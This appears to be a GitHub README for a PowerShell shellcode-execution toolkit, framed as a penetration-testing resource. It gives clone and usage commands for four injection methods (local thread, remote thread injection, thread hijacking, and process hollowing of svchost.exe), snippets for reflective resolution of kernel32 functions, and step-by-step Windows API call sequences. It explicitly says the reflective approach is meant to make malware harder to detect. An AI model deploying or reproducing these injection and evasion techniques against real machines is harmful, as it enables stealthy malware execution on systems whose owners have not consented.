 # **PowerShell-Shellcode-Exec**

PowerShell is an excellent tool built into Windows. Because of this, we can leverage it against any standard computer with basic knowledge of the .NET framework. Shellcode execution may be a vital aspect to penetration testing and must be accomplished.

There are many ways to get shellcode executed on a device, but I will be going over 2 execution methods and 4 types of shellcode execution.

### **Setup**

```powershell
git clone https://github.com/SilentisVox/PowerShellcode-Shellcode-Exec
cd PowerShellcode-Shellcode-Exec
```

### **Usage**

```powershell
cd "./Standard Windows API"

. "./Local Thread/Invoke-ShellcodeViaLocalThread.ps1"
. "./Remote Thread/Invoke-ShellcodeViaRemoteThread.ps1"
. "./Thread Hijack/Invoke-ShellcodeViaThreadHijack.ps1"
. "./Process Hollow/Invoke-ShellcodeViaProcessHollow.ps1"

Invoke-ShellcodeViaLocalThread -Shellcode $Shellcode -Verbose
Invoke-ShellcodeViaRemoteThread -Shellcode $Shellcode -TargetPID 1234 -Verbose
Invoke-ShellcodeViaThreadHijack -Shellcode $Shellcode -TargetPID 1234 -TargetTID 5678 -Verbose
Invoke-ShellcodeViaProcessHollow -Shellcode $Shellcode -ProcessPath "C:\Windows\System32\svchost.exe" -Verbose
```

```powershell
cd "./Function Resolutions"

. "./Local Thread/Invoke-ShellcodeViaLocalThread.ps1"
. "./Remote Thread/Invoke-ShellcodeViaRemoteThread.ps1"
. "./Thread Hijack/Invoke-ShellcodeViaThreadHijack.ps1"
. "./Process Hollow/Invoke-ShellcodeViaProcessHollow.ps1"

Invoke-ShellcodeViaLocalThread -Shellcode $Shellcode -Verbose
Invoke-ShellcodeViaRemoteThread -Shellcode $Shellcode -TargetPID 1234 -Verbose
Invoke-ShellcodeViaThreadHijack -Shellcode $Shellcode -TargetPID 1234 -TargetTID 5678 -Verbose
Invoke-ShellcodeViaProcessHollow -Shellcode $Shellcode -ProcessPath "C:\Windows\System32\svchost.exe" -Verbose
```

## **Brief Explanation**

![Ghost](assets/Ghost.jpg)

### **Windows API**

There are 2 ways I have covered in order to use Windows API functions. Either adding a type defintion that pulls function from a given dll, or reflectively resolving functions, and using them as such.

###### Type Definition

```powershell
Add-Type @"
using System;
using System.Runtime.InteropServices;

public class Kernel32
{
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr OpenProcess(uint dwDesiredAccess, bool bInheritHandle, uint dwProcessId);
}
"@
```

###### Reflective Resolution

```powershell
$UnsafeMethodsType                  = $SystemAssembly.GetType("Microsoft.Win32.UnsafeNativeMethods")
$NativeMethodsType                  = $SystemAssembly.GetType("Microsoft.Win32.NativeMethods")

$GetModuleHandle                    = $UnsafeMethodsType.GetMethod("GetModuleHandle")
$GetProcAddress                     = $UnsafeMethodsType.GetMethod("GetProcAddress", [Reflection.BindingFlags] "Public,Static", $null, [System.Reflection.CallingConventions]::Any, @([IntPtr], [String]), $null);

$Kernel32Handle                     = $GetModuleHandle.Invoke($null, @("kernel32.dll"))
$OpenProcessAddress                 = $GetProcAddress.Invoke($null, @($Kernel32Handle, "OpenProcess"))

# Obviously setup delegate for function pointer.
$OpenProcess                        = Get-Delegate $OpenProcessAddress @([Int], [Bool], [Int]) ([IntPtr])
```

### **Execution Methods**

Before diving into the individual execution methods, it's important to understand that each technique can be implemented using either the standard Windows API or through function resolution. The Windows API uses directly imported functions like VirtualAlloc and CreateThread, while function resolution involves manually locating these functions in memory, bypassing the import table and making the malware harder to detect.

### **Execution Techniques**

Each method below is implemented using both Windows APIs and resolved function pointers.

#### **Local Thread**
With executing memory via Local Thread, we need to know the functions required to do so. Because we are occupying the space inside the process already, we don't need to get fancy with anything. The process is straight-forward. We need to allocate memory within the process via `VirtualAlloc`. Then we will create a thread from the outputted memory address with `CreateThread`. Finally, wait for execution to finish `WaitForSingleObject`.

#### **Remote Thread**
Executing via Remote Thread involves injecting into another process. First, obtain a handle to the target process using `OpenProcess`. Next, allocate memory inside the remote process using `VirtualAllocEx`, and write the payload into that memory via `WriteProcessMemory`. Once the payload is written, create a new thread in the target process using `CreateRemoteThread`. Optionally, wait for it to complete with `WaitForSingleObject`.

#### **Thread Hijack**
Thread Hijacking involves taking control of an existing thread in a process. Begin by acquiring a handle to the target thread using `OpenThread`. Suspend it with `SuspendThread`, then retrieve its current execution context using `GetThreadContext`. Modify the instruction pointer (EIP/RIP) to point to your payload and apply the changes with `SetThreadContext`. Finally, resume execution using `ResumeThread`.

#### **Process Hollow**
Process Hollowing is a stealthy technique to replace the contents of a legitimate process with malicious code. First, spawn a suspended process using `CreateProcess` with the `CREATE_SUSPENDED` flag. Unmap its memory space using `NtUnmapViewOfSection`, then allocate new memory with `VirtualAllocEx`. Write the payload into this space with `WriteProcessMemory`, update the thread context to the new entry point using `SetThreadContext`, and resume execution with `ResumeThread`.
